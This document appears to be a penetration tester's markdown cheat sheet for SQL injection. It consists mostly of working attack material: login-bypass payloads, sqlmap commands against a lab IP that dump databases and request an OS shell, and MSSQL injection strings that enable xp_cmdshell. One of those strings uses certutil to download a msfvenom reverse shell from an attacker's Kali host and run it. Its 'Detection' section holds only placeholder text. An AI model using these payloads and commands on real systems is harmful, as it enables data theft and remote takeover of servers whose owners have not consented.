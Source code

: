 ## Detection
bla bla

## Basic SQL injection
```
MySQL
Username: Administrator
Password: ' OR 1=1#

XXX
Username: admin' OR 1=1 -- -
Password: admin' OR 1=1 -- -
```

## SQLmap
Below example is a search engine on website for authenticated users:
```
# URL to search:
# http://10.129.95.174/dashboard.php?search=ELI%27+OR+1%3D1%23

# basic scan to confirm vuln
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie"

# dump data
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --all

# try to get command execution
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --os-shell
```

## SQLserver

### RCE
First let turn on the functionality to execute commands: **xp_cmdshell**
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

turns into

http://127.0.0.1/sql.php?param='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
Download reverse shell (generated by msfvenom) and execute it
```
http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'certutil -urlcache -f http://<Kali IP>:8081/shell.exe C:\Windows\Temp\shell.exe'; --

http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe'; --
```
